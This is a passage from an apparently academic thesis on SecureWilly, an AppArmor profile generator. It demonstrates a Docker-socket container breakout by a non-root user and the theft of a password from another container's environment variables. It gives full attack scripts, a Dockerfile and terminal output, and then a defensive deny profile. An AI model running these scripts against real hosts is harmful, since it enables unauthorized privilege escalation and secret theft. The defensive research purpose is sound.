If we look into the requirements of the attack, we will uncover that running as root is the basic obstacle that makes us fail to prevent the attack with AppArmor. Mounting docker.sock is not unbeatable if we run the container as a non-root user.

So, at first sight, it seems that running as non-root would constitute the solution. Unfortunately, this is not entirely true. There is still a way to make this type of attack work without running as root and we will examine it in the next subsection.

\subsection{Access host's docker.sock without root}
\subsubsection{Docker socket's GID}
How could host's Docker engine be used by a non-root user inside a container?

First of all, this action requires the user namespace to be disabled. In order to communicate with host's docker daemon, we have to gain access permissions to docker socket.

Let's see again the output of ls command on the socket (this can be executed on any container that mounts host's /var/run/docker.sock):

\begin{lstlisting}[style=terminal]
userA@b6467935cf0b:/$ ls -l /var/run/docker.sock
srw-rw---- 1 root 999 0 Jan 23 23:43 /var/run/docker.sock
\end{lstlisting}

The owner's UID is not useful to us, since we want to run as non-root user this time.
However, the GID of docker.sock is the key to our problem. As we explained before, the name of the group is not visible inside the container, where we run the ls command, because the group does not exist there. We only see the numeric id of that group (999), which is not other than docker group on the host.

An attacker who belongs to docker group is capable to add any other user of a container to this group, by entering the container as root, with docker exec -u 0. This is also an example of how docker exec can do more harmful actions than just handling files. 
Then the non-root user has to re-log in and that's it, he can use the docker client without being root.

Let's see an example where the attacker applies this trick.
\subsubsection{Docker inspect and environment variables}
In the following example, we confront an attack which can be classified not only under container breakouts but also under compromising secrets attacks. The vulnerability responsible for the compromising secrets part of the attack is the passing passwords through docker environment variables

Suppose there is a container running which used an environment variable to pass a secret password. This container was started with the following command:

\begin{lstlisting}[style=dockercommands]
$ docker run --name attacked_container --rm --security-opt "apparmor=socket_attacked" -e Password=SuperSecretPassword -t -i ubuntu:latest
\end{lstlisting}

The AppArmor profile which was used by the container is created so that it will allow the attack to happen with the least possible rules. Below there is the socket\_attacked profile:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile socket\_attacked}]
#include <tunables/global>

profile socket_attacked flags=(attach_disconnected,mediate_deleted) {

        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        ptrace (readby, tracedby),
}
\end{lstlisting}

On the attacker's side, there is a container which should be built using the following Dockerfile:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile for attacked container's image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

#Install Docker
RUN apt-get update && apt-get install docker.io -y

#Add a non-root user and fix password
RUN useradd userA && echo "userA:A" | chpasswd

#Create a directory belonging to userA
#fix the permissions and copy the attack script in there
RUN mkdir Attack
RUN chown userA:userA /Attack
RUN chmod 744 /Attack
COPY 4_attack.sh /Attack

#Copy the script which the attacker will use with docker exec
COPY add_user_to_docker_group.sh /

WORKDIR /
USER userA
ENTRYPOINT /bin/bash
\end{lstlisting}

The build and run command are given below:

\begin{lstlisting}[style=dockercommands]
$ docker build . -t docker_socket_attack
$ docker run --name attacker --rm -it --security-opt "apparmor=socket_attacker" -v /var/run/docker.sock:/var/run/docker.sock docker_socket_attack
\end{lstlisting}

The AppArmor profile used for the attacker's profile is the following:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile socket\_attacker}]
#include <tunables/global>

profile socket_attacker flags=(attach_disconnected,mediate_deleted) {
        file, #This rule is needed so that I can work with files (create files/directories, copy, etc)
        #Allow attack to Host
        signal,
        capability setuid,
        capability setgid,
}
\end{lstlisting}

The capabilities setuid and setgid will allow the attacker to re-login as the non-root user and achieve to create a new login session as the same user - using su command - so that the group changes which will happen later can be applied. 
\\

Now, the container is up, but the attacker cannot use docker client yet. On the host side the attacker has to run the following script in order to enter the container as root and add the non root user to docker group:

\begin{lstlisting}[style=shellscript, caption={3\_exec\_as\_root\_to\_wannabe\_attacker.sh}]
#!/bin/sh

#List the running containers and find the one that belongs to the attacker
docker ps | grep attacker > dockerps
#Keed the container id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)

#Enter the running container as root and execute a script in it
docker exec -u 0 ${container_id} ./add_user_to_docker_group.sh

#Clear the files used
rm dockerps
rm containerid
\end{lstlisting}

The script which the attacker executes as root inside the running container is given below:

\begin{lstlisting}[style=shellscript, caption={add\_user\_to\_docker\_group.sh}]
#!/bin/sh

#!/usr/bin/env bash
# Based on https://github.com/jenkinsci/docker/issues/196#issuecomment-179486312

DOCKER_SOCKET=/var/run/docker.sock
DOCKER_GROUP=docker
REGULAR_USER=userA

#If docker.sock exists
if [ -S ${DOCKER_SOCKET} ]; then
        #Find the GID of docker.sock
        DOCKER_GID=$(stat -c '%g' ${DOCKER_SOCKET})

        #Check if docker group exists
        exists=$(cat /etc/group | grep ${DOCKER_GROUP})
        if [ -z "$exists" ]; then
        #If group docker does not already exist
                #create group with the given gid and name
                groupadd -for -g ${DOCKER_GID} ${DOCKER_GROUP}
                #Modify user's group so as docker group is added
                usermod -aG ${DOCKER_GROUP} ${REGULAR_USER}
        else
        #If docker group exists
                #Modify docker group so as to have the given id and name
                groupmod -g ${DOCKER_GID} ${DOCKER_GROUP}
                #Modify user's group so as docker group is added
                usermod -aG ${DOCKER_GROUP} ${REGULAR_USER}
        fi
fi
\end{lstlisting}

In this script, the attacker creates - or modifies if it already exists - a group with host's gid of docker group, with the name docker group and then adds the non-root user to it by modifying the group set that the user is member of. The changes to docker group has been made and the host side part of the attacker is completed.

In order for the changes to be applied though, the non root user within the container has to re-login and start a new login session as the same user. This can be accomplished by using the command su.
Afterwards, the attacker is ready to use docker client and run the attacking script. Let's take a look at this script:

\begin{lstlisting}[style=shellscript, caption={4\_attack.sh}]
#!/bin/sh

#List the running containers and find the one we want to attack
docker ps | grep attacked_container > /Attack/dockerps
#Keed the container id
cut -d' ' -f1 dockerps > /Attack/containerid
container_id=$(cat /Attack/containerid)
#Find information about this container
docker inspect ${container_id} > /Attack/inspect_output

#Clear the files used
rm /Attack/dockerps
rm /Attack/containerid

#Print any information that includes keyword Password
cat /Attack/inspect_output | grep Password
\end{lstlisting}

In the script above, the attacker uses docker commands to detect a specific container and when he targets it, he uses the tool docker inspect to learn information about this container. As a result, all environment variables and its values are visible to the attacker and among them there is an environment variable which includes the password to a service. The attacker learns this password and he is now capable to use the service it unlocks.

All these actions that should be done from the attacker's container side are given below:

\begin{lstlisting}[style=terminal]
userA@4b9c8fdfac11:/$ su userA
Password:
$ whoami
userA
$ groups userA
userA : userA docker
$ cd Attack
$ ls
4_attack.sh
$ ./4_attack.sh
                "Password=SuperSecretPassword",
\end{lstlisting}

A tip to avoid the eventual leak of secrets is not using environment variables for passing secrets.

In this case, the attacker container was created by the attacker himself and he could have run it as root from the beginning anyway. Yet, we chose to examine this approach because the attacker could apply the same trick to a random image which might be configured to run as non root user. Let's reverse the role of this container, and think about it as a regular container which was also attacked by the attacker.

In the creation of a Super-Privileged container example, in section \textit{Container Privilege Elevation: Docker Socket}, we mentioned that SecureWilly could not prevent the attack.  But this case is different because as you might have noticed the AppArmor profiles were not plain this time. So, we used reverse engineering once again to prevent this type of attack.

Running as root is difficult to fight, but when it comes to non root users who intend to be added to docker group, a login is required, in order to apply the group changes. And that's what SecureWilly will block. In order to block this attack, the AppArmor profile has to deny the capabilities setuid and setgid. But is it appropriate to block them for every single container? The answer is no. We just have to block them whenever there is a mount of docker.sock, which probably means that the user intends to use host's docker client. Indeed, it may concern an innocent action but SecureWilly's purpose is to guard the isolation and these capabilities combined with docker.sock could lead to a vulnerability and a risk we do not wish to take.

Thus, the profile that should have been used to defend the container (here we mean the attacker's container but in general this can be considered as any other image) in order to prevent the attack is the following:
\hfill\break
\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile socket\_attacker}]
#include <tunables/global>

profile socket_attacker flags=(attach_disconnected,mediate_deleted) {
       file, #This rule is needed so that I can work with files (create files/directories, copy, etc)
       signal,
       #Forbid attack to Host
       deny capability setuid,
       deny capability setgid,
}
\end{lstlisting}


In the reverse engineering phase, we added to the static part of SecureWilly a condition: \textbf{if mounting of docker.sock is encountered, then add a deny rule to each one of the capabilities setuid and setgid}.

\begin{mdframed}[backgroundcolor=tipcolor]
\textbf{Tip}: Another way to access the Docker Daemon is through the Docker-in-Docker image (dind). We did not examine this scenario because it needs flag --privileged in order to run and this would disable the security so we would not be able to do anything to prevent attacks using dind. It is an interesting feature to use though and we recommend to take a deeper look into it. \cite{dind}
\end{mdframed}

\section{Summary}
Containers have walls, even without AppArmor profiles, but you can go through them if you must. That's when our profile should take place as a second wall. SecureWilly assists building this wall by creating secure and efficient AppArmor profiles.

It is a fact that not all of the vulnerable features we discussed can be confronted. Right now, SecureWilly protects isolation against a specific group of attacks. It gets harder though when these features are combined, and the attack gets more complicated to confront. This is why it is recommended to bear in mind the best practices suggested by Docker \cite{dockerbestpr} and be cautious about using the vulnerable features we detailed above, when creating an image and running the container.
